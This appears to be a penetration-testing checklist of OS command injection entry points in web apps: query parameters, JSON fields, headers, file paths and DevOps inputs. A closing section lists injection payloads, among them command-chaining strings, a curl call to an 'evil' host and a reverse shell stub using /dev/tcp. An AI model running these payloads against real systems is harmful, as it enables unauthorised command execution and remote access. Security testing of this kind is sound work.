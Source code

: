 
## URL/Query-Based Entry Points
- [ ] `/ping?ip=127.0.0.1`
- [ ] `/lookup?domain=example.com`
- [ ] `/dns?host=abc.com`
- [ ] `/traceroute?target=host.com`
- [ ] `/whois?domain=target.com`
- [ ] `/convert?img=logo.png`
- [ ] `/pdfgen?url=https://example.com`
- [ ] `/compress?file=report.txt`
- [ ] `/install?package=nginx`
- [ ] `/backup?target=db_name`

---

## Form Parameters & JSON Body
- [ ] `{ "host": "127.0.0.1" }`
- [ ] `{ "command": "ls -la" }`
- [ ] `{ "target": "domain.com" }`
- [ ] `{ "ip": "8.8.8.8" }`
- [ ] File upload path fields (`upload_dir`, `output_path`)
- [ ] Log file location field
- [ ] Image conversion output format
- [ ] Compression tool selector (`gzip`, `zip`)
- [ ] File renaming or cloning field
- [ ] Admin tool with `script_name` input

---

## Headers & Metadata-Based Injection Points
- [ ] `User-Agent` passed to OS command (`curl`, `wget`, etc.)
- [ ] `X-Forwarded-For` logged to shell script
- [ ] `Host` header used in scripts
- [ ] `Referer` passed to shell log
- [ ] `X-Real-IP` used in internal scripts
- [ ] Custom header like `X-Device-Name`
- [ ] `Authorization` header for logging
- [ ] `Content-Type` or `Accept` header if parsed
- [ ] `Cookie` values inserted into shell logs
- [ ] File path in headers (`X-Path`, etc.)

---

## File Operations and Paths
- [ ] File name parameters (`filename=test.txt`)
- [ ] Directory path parameters (`path=/tmp/`)
- [ ] Log viewer file input (`log=access.log`)
- [ ] Temp file handler (`temp=tmp123`)
- [ ] Report export input (`export=report.csv`)
- [ ] Download/export command path
- [ ] Cleanup job targets (`target=old.log`)
- [ ] ZIP file paths (`zip=dir/to/zip`)
- [ ] Restore points or rollback paths
- [ ] Bash script targets (`script=runme.sh`)

---

## Developer/DevOps Tools in APIs 
- [ ] `git` operations (`repo=https://...`)
- [ ] `docker` or `kubectl` input params
- [ ] Build scripts (`script`, `task`)
- [ ] Jenkins/CICD job inputs (`task=clean`)
- [ ] Command execution endpoints (`cmd=ls`)
- [ ] Shell command input in debug panel
- [ ] Runtime exec inputs (`command=...`)
- [ ] Crontab manager input fields
- [ ] Script upload and executor
- [ ] Any param passed to `system()`, `exec()`, `popen()`, `shell_exec()`

---

## Bonus Injection Payload Testing
- [ ] `; whoami`
- [ ] `&& ls -la`
- [ ] `| id`
- [ ] `$(id)`
- [ ] \`uname -a\`
- [ ] `%0a` or `%0d` injection
- [ ] `#` to comment out
- [ ] Chained payloads (e.g., `127.0.0.1; curl evil`)
- [ ] Time-based delay (e.g., `; sleep 5`)
- [ ] Reverse shell tests (`bash -i >& /dev/tcp/...`)

---
